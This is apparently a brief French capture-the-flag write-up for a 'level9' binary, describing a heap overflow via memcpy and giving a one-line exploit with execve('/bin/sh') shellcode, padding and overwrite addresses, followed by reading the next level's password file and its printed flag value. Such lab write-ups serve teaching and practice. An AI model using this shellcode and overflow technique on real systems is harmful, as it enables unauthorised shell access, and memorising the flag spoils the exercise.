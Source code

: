 gdb level9

info function

on apercois un call "new" qui alloue de la memoire et qui ensuite la copy avec memcpy donc on va essayer d'overflow

en cherchant la liste des functions appele on voit un STRCPY qui nous a deja servi dans les exo d'avant on va donc passer par lui pour lui faire copier ce qu'on veut a l'adresse du strcpy : 0xb7f34aa0

./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + 83 * "A" + "\x0c\xa0\x04\x08"')

cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728